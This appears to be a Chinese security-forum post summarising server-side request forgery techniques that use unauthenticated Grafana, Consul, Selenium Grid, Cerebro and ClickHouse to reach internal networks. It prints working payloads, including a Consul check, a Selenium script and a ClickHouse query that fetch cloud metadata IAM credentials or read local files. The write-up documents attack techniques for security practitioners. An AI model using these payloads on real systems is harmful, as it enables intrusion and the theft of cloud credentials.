 

# 云攻防中常见未授权下的回显 SSRF - 先知社区

云攻防中常见未授权下的回显 SSRF

- - -

# 常见未授权下的回显 SSRF 攻击面

回显 ssrf 在云攻防中往往能起到出其不意的效果，能撕开外网的防护，直接发起内网攻击，达到事半功倍。不仅能控制未授权 k8s api-server，还能获取元数据，运气好的情况还能直接获取 iam 认证信息。本文即总结实战过程中遇到过的一些回显 ssrf 的利用。

### Grafana

grafana 允许用户在平台配置数据源，因此在我们未从 grafana 中获取更多信息后，可以利用配置数据源的方式功能来实现 ssrf 攻击内网

利用工具 [https://github.com/RandomRobbieBF/grafana-ssrf](https://github.com/RandomRobbieBF/grafana-ssrf)

[![](assets/1708654671-cadca448dc1ff2ed66b53bff2ded320e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104422-1e3f7414-d063-1.png)

### Consul

consul 是一个服务注册发现组件，未授权若开启脚本检查/脚本执行可直接 RCE，但实战中遇到新版本较多，除信息泄露外，还可通过 consul 提供的监控功能实现 ssrf

通过 consul 提供的/v1/agent/check/register 注册健康检查接口，可实现回显 ssrf，但仅可显示部分数据，过长会被截断

创建 json 文件，内容如下

```plain
{ "id": "redis-1", "name": "Redis health check", "http": "http://xxxx/latest/iam/security_credentials", "tls_skip_verify": false, "method": "GET", "interval": "10s", "timeout": "1s" }
```

curl -X PUT [http://xxxxx.com/v1/agent/check/register](http://xxxxx.com/v1/agent/check/register) -d @json  
查看服务 health checks 即可查看 ssrf 回显内容

[![](assets/1708654671-151807a6d632342c82a23d232d74ce43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220160847-46166f3e-cfc7-1.png)

### Selenium Gird

Selenium 为常见自动化测试服务，可提供远程调用浏览器，未授权情况可直接新建 session 实现回显 ssrf

[![](assets/1708654671-514bd8d3e5c93ae2d8c44d20cef2647c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220160929-5ed07772-cfc7-1.png)

```plain
from selenium import webdriver
url='http://xxxxxxx:4444/wd/hub'
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument('--no-sandbox')
chrome_options.add_argument('-ignore-certificate-errors')
chrome_options.add_argument('--allow-file-access-from-files')
dr = webdriver.Remote(url, options=chrome_options)
dr.set_page_load_timeout(3)
dr.get('file:///')
#dr.get('http://xxxxx/latest/iam/')
print(dr.page_source)
```

### Cerebro

Cerebro 是一个开源 es 图形化服务管理工具，使用服务端连接 es，若公开到公网就会存在 ssrf 漏洞  
存在两个接口可以利用，首页/connect 连接 es 接口，无回显，不在此处列出  
进入功能页面，存在一个 rest 查询接口，页面功能如下：  
[![](assets/1708654671-dcbe2419e944e9bb64262864df0d81eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220161005-745cfbce-cfc7-1.png)

利用该接口即可实现回显 ssrf

```plain
POST /rest/request HTTP/1.1
Host: xxxxx:9000
Content-Length: 76
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSION=a479fcb2-d259-4833-bc88-c7cb1c896044; JSESSIONID=FF77ABF1DDD1AF7697078904978F866A
Connection: close

{"method":"GET","data":{},"path":"","host":"http://10.0.0.142:18801/health"}
```

### Clickhouse

clickhouse 为开源的一个用于联机分析 (OLAP:Online AnalyticalProcessing) 的列式数据库管理系统，提供了基于 http 接口为数据源的功能，若存在未授权或弱口令，可实现有限制的回显 ssrf  
以下 sql 语句即可实现回显 ssrf,

```plain
SELECT * FROM url('http://xxxxx/latest/iam/security_credentials/','TabSeparated','a String','auto');
```

[![](assets/1708654671-f2a74bc330420c37414960fd0ab5eaa4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104734-90b37cfc-d063-1.png)

[![](assets/1708654671-5c6cbf0756a66fb8e108140e6f3c043c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220161623-55af61fc-cfc8-1.png)

回显 ssrf 在云攻防中能造成意想不到的危害，获取元数据信息，攻击未授 k8s 组件等功能，一些自研反向代理、网关等均存在此类漏洞，不在赘述，仅为总结在实战过程中遇到的一些 ssrf，欢迎补充
